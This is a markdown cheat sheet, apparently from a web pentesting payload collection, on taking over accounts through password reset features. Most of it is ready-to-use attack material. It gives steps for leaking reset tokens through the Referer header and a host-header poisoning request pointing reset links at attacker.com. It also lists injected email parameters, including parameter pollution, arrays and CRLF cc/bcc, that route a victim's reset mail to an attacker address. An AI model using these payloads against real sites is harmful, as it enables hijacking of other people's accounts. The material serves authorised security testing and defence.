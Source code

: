 # Account Takeover

## Password Reset Feature

### Password Reset Token Leak Via Referrer

1.  Request password reset to your email address
2.  Click on the password reset link
3.  Don't change password
4.  Click any 3rd party websites(eg: Facebook, twitter)
5.  Intercept the request in Burp Suite proxy
6.  Check if the referer header is leaking password reset token.

### Account Takeover Through Password Reset Poisoning

1.  Intercept the password reset request in Burp Suite
2.  Add or edit the following headers in Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3.  Forward the request with the modified header
    
    ```http
    POST https://example.com/reset.php HTTP/1.1
    Accept: */*
    Content-Type: application/json
    Host: attacker.com
    ```
    
4.  Look for a password reset URL based on the *host header* like : `https://attacker.com/reset-password.php?token=TOKEN`

### Password Reset Via Email Parameter

```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```

### IDOR on API Parameters
